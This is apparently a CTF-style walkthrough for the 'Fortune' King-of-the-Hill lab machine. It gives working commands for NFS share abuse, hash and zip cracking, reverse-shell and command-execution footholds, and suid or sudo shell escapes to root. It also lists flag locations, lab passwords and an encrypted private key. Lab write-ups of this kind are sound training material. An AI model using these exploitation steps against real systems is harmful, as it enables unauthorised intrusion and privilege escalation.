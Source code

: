 # Fortune KOTH machine

## footholds

hermes:

- using showmount -e <ip> reveals a share. mounting this with: `mount -t nfs 10.10.241.174:/srv/nfs /tmp/nfs -o nolock` can find a `hermes_ssh` file
- this can be decoded using vignere with key n, then broken with ssh2john, john and rockyou, and will provide ssh access as hermes
  
Note this key and its passphrase is random every time
  
fortuna:
  
- on port 3333 is a service that returns base64. access with nc (curl will also work)
- this is a zip file when decoded, that needs to be cracked
- inside is a creds.txt file that contains fortuna's password
  
  passwords seen: `MzE0NDBlND`, `ZGI4NjI0Mz`
  
  ```
  curl RHOST:3333 | base64 -d > f.zip
  /opt/john/zip2john f.zip > fj
  john --wordlist=rockyou.txt fj
  echo PASS | unzip f.zip
  cat creds.txt
  ```
  
www-data 1:
  
- the website on 80 has an ip and port field. this will on a random change connect back as a reverse shell, if tried multiple times
- as the form fields are randomised, it must be done manually, but is not difficult. 
- connects back as www-data
  
www-data 2:
  
- under port 80 `/_styles` is another website with straight command execution as www-data with the `luck` querystring param
- it has a 1 in 4 chance of running, but will also block any use of the text `nc`
  
## root
  
- there is no root squash on the nfs mount, so you can drop a suid binary in there from attack box
- `ionice /bin/sh -p`
- `/usr/bin/nice /bin/sh -p`
- `xargs -a /dev/null sh -p`
- `python -c 'import pty; pty.spawn("/home/lucky_shell")'` - is random so needs lots of tries
- `fortuna` and `pico`:
  
  ```
  sudo pico
  ^R^X
  reset; s
  ```
- `kairos` and python repl: to get to kairos use suid on find: `find . -exec /bin/sh -p \; -quit`
  ```
  python
  import pty;
  pty.spawn("/bin/bash");
  ```
    
## flags
  
- /media/darts
- /srv/blackjack
- /lib/checkers
- /usr/games/flag
- /usr/games/fortune
- /usr/local/games/flag
- /geama/flag
- /home/fortuna/Desktop/chess (thanks to mug3njutsu on discord for this)
  
## hermes key, cuteko pass:

not sure if this random
  
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,57145A8D54A46E26334807885A43DA74

MBpsTtnjX14/G2VnexI+K4WFalKGoTm1/OHobQl+3EPZVY4LU4khWu2JABjv/EXv
cct34TxEu2kw7tYZmdlkosQANLdcLkryRZO8wnQmTmh/nAA9JOOsDNXDYUUteurf
j1UD3XouSNdygA7lDyGJPVqHPbkCOueG27Vryp5660kPpXmyEU7kOMMUpNzncR8r
yd6cQQDSd/ydzAhGpwdXkA4oxdX1qDCWz6Qc7hlMQbAUokGIsqwuRE1smloSwLln
dzTS6eXSq15XSM1Qcs4MVhyY9KX7nWN+8CfUrPRi1+msUlfGyhMacV6kHkl7aAQk
J58RsVKxcpkc8JkOHle//On1ZJ6noTOcSB1czMbhemH3n21FgreSOs8vxUqlX9x7
gVnjEbk7LbFBCObUhVUii3GURlpP1ro4Hv34VvOJl1MKtCOuI0kMyqYjTtFnnVLZ
zBKNoKOlzjM2FTZ2a2ziNAI1OEcO6KZRSPnSGZ0v0ra7GdP9Gj9HHGiIcZbwhex2
+6HGR87WtUWzEG0OCkiR38GhBrJ+byDGYbbAClJu/iun/unTApH7KzZTguOP8ICk
6Pinw3BsKcZbxhAQtjPNhzO/J7c+eMjUtf4yXqz3V0TtjujsluAv05IuTZbjHnCA
un7avtJFRXUVCkPfrEMIN00wOezrNSy2WMF5YzzAuZes4bHbPx2l6neDp6VmfVkg
cK6hZswiEks5MyMLftcLb80fg6hXwy4ZO51Cb4CKEwGU15C1cXG7vglqKlgLscVk
DAg8ySZwwAdffefxhNtiMkxDKu3BWU2onMyjLH7F57DM/gyZm4jGb7RXbvijva/o
PXZCIc0+nWbEAYYV/gG7u09cPWLQmyIaWKaLDxKMXyUW/8nfhIGo2LnACaMIAmZY
bqa9BV1Pkc6zc0hyDqRKa+b71WH5PWXvXETRs2BJcrKyAowiyd1N+EjYi+vzCD6D
gPZXi2wDvEQldNK58NY7IH2Jq1K6+K/6PeRdY2SEp6lQIijBogwFR4AxyNEt/jTe
LEA9ZpJid2sBO+O+SuPDMHfyl/TPQXB0kAAm0GuSmtxqOSrOYX3xPxJ7/+5ioDJZ
TqzNv+uD311ZPuWrKOApc27ZNu7x0Hbd6ATUaqTCkT1eCu4dFPvAROf2DQ8X0Fnx
kui1kvxEc2zU8QqLCizYxZnOLfhF6rtRLfM+zyTA96imlYTtDJMkwgAQU/gxPKuC
PEA6T08FD6TMhJYnjODKmYpYyj21CyKioqmIBR+b4okwYkAQ8WaLZVzCq4C8hoRm
RPCX49MyO6xTdF0mi+2Lsnq+sGJFaeThK5X4J+DGeKmN80cJ7lg0csKmaOTrWX3E
nv/T8D/SDbwybcSj7lISsZAagxaL/dpIIGkP87ZXsRAN57lGZ8gH1n4zMYACH1rt
fNRrsHGlYsqQGvhCtgM9iUZwJALAkqy71XXXy9e+a31QkmG8kRhBiQTex+GZRv6O
gX0bg5csBqJMyJtMNm35GRhoxOmQb0yzKJW/B9uLA3yc/qEOJuu+BjcNx9YrqhoE
h2ZlzchBizy6lU08RI/Py0OGB6YfTWTXM89AENH3sttMI765+CZaypRUBDWDQSrF
-----END RSA PRIVATE KEY-----
```
